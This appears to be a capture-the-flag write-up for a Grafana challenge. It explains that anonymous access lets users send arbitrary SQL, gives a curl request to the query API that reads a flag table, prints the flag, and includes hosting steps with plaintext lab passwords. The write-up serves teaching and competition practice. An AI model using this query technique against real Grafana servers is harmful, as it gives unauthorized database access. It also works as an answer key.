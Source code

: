 # Grafana
Level: Hard

Description:
```
I spun up a Grafana dashboard to list some sports statistics, but unfortunately it's broken and I'm tired so I'm just going to ignore it. I also heard that it may be [vulnerable if others can access it](https://community.grafana.com/t/dashboard-variable-sql-injection/11660), but there's no way a vulnerability like that is still in production software, so I'm not worried about it.

`http://byuctf.xyz:40010`
```

## Writeup
When access to Grafana is granted, the user controls the SQL queries sent to the server. In this case, anonymous access is granted to a Grafana server which is connected to a PostgreSQL database. Inspecting the Network tab will reveal a SQL query run in an HTTP request. By capturing that request and modifying the query run, the flag can be accessed from the `flag` table. An example command using cURL is below:

```bash
curl http://localhost:40010/api/ds/query -X POST --header 'Content-Type: application/json' -d '{"queries":[{"refId":"A","datasource":{"uid":"ctAhPmynz","type":"postgres"},"rawSql":"select * from flag;","format":"table","datasourceId":1,"intervalMs":30000,"maxDataPoints":716}],"range":{"from":"2022-03-25T01:09:57.542Z","to":"2022-03-25T07:09:57.542Z","raw":{"from":"now-6h","to":"now"}},"from":"1648170597542","to":"1648192197542"}'
```

**Flag** - `byuctf{qu3ry_1nj3ct10n_1s_4_"f34tur3"_1n_gr4f4n4}`

## Hosting
1. Spin up docker images
    - `sudo docker-compose rm -f && sudo docker-compose up -d`
2. Populate postgresql db
    - `psql -U postgres -h localhost < postgresql_build/sportsdb.sql` with password `tuiuiqxcugomqzxftelsmpfvbsjbkjre`
3. Setup Grafana
    - Sign in with username `admin` and password `miloxgxhcamdtsgmkjuaoqegwuywlyjq`
    - Add postgresql datasource
        - Host - `172.18.230.96:5432`
        - Database - `postgres`
        - User - `grafana_user`
        - Password - `nwfnqhzujqfagusdaahrdwlthhlwhwkf`
        - TLS/SSL Mode - `disable`
    - Add new dashboard "Broken Sports Dashboard"
        - Add new panel with raw query `select affiliation_type, count(affiliation_type) from affiliations group by affiliation_type`, format as table